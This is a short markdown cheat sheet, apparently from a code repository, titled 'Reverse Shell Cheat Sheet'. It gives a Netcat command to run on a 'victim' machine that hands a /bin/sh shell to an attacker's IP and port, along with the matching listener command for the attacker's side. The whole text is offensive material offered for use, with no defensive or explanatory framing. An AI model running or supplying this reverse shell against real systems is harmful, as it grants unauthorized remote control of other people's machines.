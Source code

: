 # Reverse Shell Cheat Sheet

## Netcat linux reverse shell

###Upload to victim
```nc -e /bin/sh <your_ip> <port>```
###Listener
```nc -vv -l -p <port>```

